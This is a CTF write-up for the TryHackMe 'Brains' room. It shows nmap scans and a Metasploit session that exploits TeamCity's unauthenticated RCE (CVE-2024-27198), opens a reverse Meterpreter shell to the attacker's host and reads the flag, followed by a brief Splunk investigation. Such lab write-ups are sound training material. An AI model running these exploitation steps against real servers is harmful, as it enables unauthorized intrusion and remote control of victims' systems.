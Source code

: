 ```yaml
---
title: "Brains"
date: 2025-03-02
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Brains
categories: [TryHackMe, Easy]
tags: [linux, rce, metasploit, teamcity, dfir, splunk]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Brains</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>The city forgot to close its gate.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/brains">https://tryhackme.com/room/brains</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Brains.  

## Part One Red Team

### Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.9.245     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-02 10:28 EDT
Nmap scan report for 10.10.9.245
Host is up (0.039s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 26.16 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,50000 10.10.9.245
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-02 10:29 EDT
Nmap scan report for 10.10.9.245
Host is up (0.035s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d7:07:ad:ad:85:de:64:c8:92:52:6c:92:e3:33:37:e6 (RSA)
|   256 6c:64:8d:b1:3f:08:53:a6:8a:af:c4:93:d8:de:77:50 (ECDSA)
|_  256 ee:a0:eb:3c:1c:0e:b4:15:b2:48:1e:13:a1:f7:d6:05 (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Maintenance
50000/tcp open  ibm-db2?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 401 
|     TeamCity-Node-Id: MAIN_SERVER
|     WWW-Authenticate: Basic realm="TeamCity"
|     WWW-Authenticate: Bearer realm="TeamCity"
|     Cache-Control: no-store
|     Content-Type: text/plain;charset=UTF-8
|     Date: Thu, 13 Mar 2025 14:29:10 GMT
|     Connection: close
|     Authentication required
|     login manually go to "/login.html" page
|   drda, ibm-db2, ibm-db2-das: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Thu, 13 Mar 2025 14:29:10 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
```
From here I proceeded the analysis port by port.

### Port 80 Analysis

The webserver displayed a `maintanance note`, as shown in the following screenshot:

screen 1

After performing several enumeration techniques, I moved on to the next port, as I didn't find anything useful on port 80. 

### Port 50000 Analysis

Port provided access to a `TeamCity` installation, which displayed the version number on the login page. Since I didn't have any credentials, I started researching the version number. I discovered that `TeamCity` version `2023.11.3` had multiple vulnerabilities. The Unauthenticated Remote Code Execute I found in this <a href="https://sploitus.com/exploit?id=PACKETSTORM:177601">post</a> seemed to be the best option, as it was available as a Metasploit module. I started Metasploit, searched for the vulnerability, and found it right away: 
```bash
msf6 > search teamcity

Matching Modules
================

   #   Name                                                      Disclosure Date  Rank       Check  Description
   -   ----                                                      ---------------  ----       -----  -----------
   0   exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793  2023-09-19       excellent  Yes    JetBrains TeamCity Unauthenticated Remote Code Execution
   1     \_ target: Windows                                      .                .          .      .
   2     \_ target: Linux                                        .                .          .      .
   3   exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198  2024-03-04       excellent  Yes    JetBrains TeamCity Unauthenticated Remote Code Execution
   4     \_ target: Java                                         .                .          .      .
   5     \_ target: Java Server Page                             .                .          .      .
   6     \_ target: Windows Command                              .                .          .      .
   7     \_ target: Linux Command                                .                .          .      .
   8     \_ target: Unix Command                                 .                .          .      .
   9   exploit/multi/misc/teamcity_agent_xmlrpc_exec             2015-04-14       excellent  Yes    TeamCity Agent XML-RPC Command Execution
   10    \_ target: Windows                                      .                .          .      .
   11    \_ target: Linux     
```

After loading the module, I set the necessary options and executed the exploit. After the Meterpreter shell spawned, I was able to retrieve the flag: 
```bash
msf6 > use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set LHOST tun0
LHOST => [attackerip]
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RHOSTS 10.10.243.137
RHOSTS => 10.10.243.137
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RPORT 50000
RPORT => 50000
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > exploit

[*] Started reverse TCP handler on [attackerip]:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.TGJpZXlvdGJqYVBhNXQzdUF2MVlCT1drNVpR.Y2EzYmE4YjgtN2FiNy00OTE0LWI1OWEtNzhlZTk1ODUxY2Mw
[*] Uploading plugin: FExxz9f4
[*] Sending stage (57971 bytes) to 10.10.243.137
[*] Meterpreter session 1 opened ([attackerip]:4444 -> 10.10.243.137:46230) at 2025-03-13 15:43:50 -0400
[*] Deleting the plugin...
[!] Failed to list all plugins.
[!] Failed to discover enabled plugin UUID
[!] Failed to delete the plugin.
[*] Deleting the authentication token...
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/FExxz9f4' on the target
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_FExxz9f4' on the target
[!] This exploit may require manual cleanup of '/home/ubuntu/.BuildServer/system/caches/plugins.unpacked/FExxz9f4' on the target

meterpreter > cd /home
meterpreter > cd ubuntu
meterpreter > cat flag.txt
THM{f[removed]4}
```

## Part Two Blue Team

For the investigation, we had access to a Splunk system. After some investigation, I identified that the key time span was between july 4th and 8th. Using the following search queries, I was able to answer the questions:

![Query One](/assets/img/tryhackme/Brains/thm_brains_2.jpg)

![Query Two](/assets/img/tryhackme/Brains/thm_brains_3.jpg)

![Query Three](/assets/img/tryhackme/Brains/thm_brains_4.jpg)

solved! :)